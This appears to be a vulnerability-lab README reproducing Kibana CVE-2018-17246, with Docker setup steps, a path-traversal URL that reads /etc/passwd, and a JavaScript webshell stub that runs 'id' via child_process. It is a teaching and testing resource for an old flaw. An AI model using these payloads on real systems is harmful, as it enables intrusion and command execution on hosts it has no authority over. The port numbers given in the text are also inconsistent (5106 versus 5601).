


# Kibana Local File Inclusion (CVE-2018-17246)

[中文版本（Chinese Version）](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 6.4.3 and 5.6.13 contain an arbitrary file inclusion flaw in the Console plugin. An attacker with access to the Kibana Console API could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References:

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/

## Setup

Start the Kibana 5.6.12 and Elasticsearch 5.6.16:

```
docker-compose up -d
```

After started the environment, the Kibana is listening on `http://your-ip:5106`.

## Vulnerability Reproduce

Send the following request to trigger a basic path traversal:

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

Though there is nothing response except a error message with the 500 status code, you can see the exception in the `docker-compose logs`:



File `/etc/passwd` is imported successfully.

To exploit this vulnerability, you need to upload a JavaScript webshell to the machine where the Kibana is running, then include it.

```js
// docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```


